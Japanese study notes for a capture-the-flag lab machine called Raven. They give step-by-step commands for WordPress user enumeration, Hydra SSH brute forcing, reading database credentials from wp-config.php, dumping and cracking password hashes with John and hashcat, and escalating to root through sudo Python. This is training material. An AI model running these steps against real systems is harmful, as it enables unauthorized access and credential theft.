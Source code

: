 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する

### gobusterで探す
- Dirbと当然、同じディレクトリが出てくる。
  - メリット -> Dirbよりも速度が速いので、gobusterの方がいいかも
  - デメリット -> wordpressまでしか出てこないが、Dirbならwp-login.phpまで出てくる

### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- 一部のサイトが崩れているので直す。おそらくサイトの中でraven.localのリンクが使われていて、その名前解決ができなので崩れている
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`を選択で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - `wpscan --url 192.168.56.107/wordpress --enumerate u`
    - `--enumerate u`は`-eu`と同じ意味 `-eu`はenumerate userの略
    - (上と同じ) `wpscan --url 192.168.56.107/wordpress -at -eu` 
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
  - (参考) wordpressを使っているので、wigやdroopescanも使える


### Hydraでパスワード探す
- wordpressのユーザ名でsshのパスワードを探す
- `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 50`
  - `-t` 同時にタスクを動かせる数、16がデフォルト。数字が大きいほど速くなる。ただし、sshでは制限があるので、`-t 4`がリコメンドされている
- httpでなく、sshなので注意
- `michael`だけしかパスワードわからないので、そこで止める

### (参考) nmapでパスワードを探す
- `sudo nmap -p 22 --script ssh-brute --script-args userdb=names.txt,passdb=pass.txt`
  - passdb.txtはパスで指定できないので、同じディレクトリでないとだめ

### sshで接続
- `ssh michael@$IP`
  - password `michael` 

### システム内の探索
- ユーザmichaelで探索
- `sudo -l`
  - パスワードがわからない 
- SUIDをする
  - 特に使えるものはない 
- `cat /etc/passwd`
  - stevenという気になるユーザが見つかる 
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`

### MySQLの設定情報を見る
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う

### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`

### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- wordpressのユーザ名とパスワードの書いたhash.txtが作成される。通常SQLでパスワードが保存されているときはハッシュ化
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
- 通常パスワードの解析は攻撃側端末で行う理由は３つ
- 1. ターゲット端末にJohnがインストールされてることはない
  2. ターゲット端末に負荷がかかるので見つかる可能性がある
  3. 攻撃端末の方が高スペックである
- ターゲット端末のhash.txtをコピーして、ParrotOS側の新しい端末を起動してターミナルにペーストする
- (Raben) `cat /tmp/hash.txt`
- コピーする
- (Prrot) `cat > ~/vulnhub/Raben/hash.txt`
- ペーストする

### ハッシュ値の種類を調べる
- `hash-identifier '$P$~' ` stevenのハッシュ値をペーストする
- wordpressのmd5だとわかる
- 暗号解読には2種類の方法がある

### 暗号解読(1) John the ripper(ParrotOS側で)
- hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
  - 過去に一度解析していたら以下のコマンドする
  - `sudo john --show hash.txt` 

### 暗号解読(2) hashcat(ParrotOS側で)
- hash.txtのstevenのハッシュ値をペースト
- `hashcat '$P$B~' /usr/share/wordlists/rockyou.txt -m 400`


### stevenに切り替える
- userのstevenのpasswordがわかるので切り替える。このパスワードは本来はWordPressにログインするためのパスワードだが、ユーザの切り替えでも使い回していると考えている
- `su steven`
- password`pink84`

### sudo -l
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
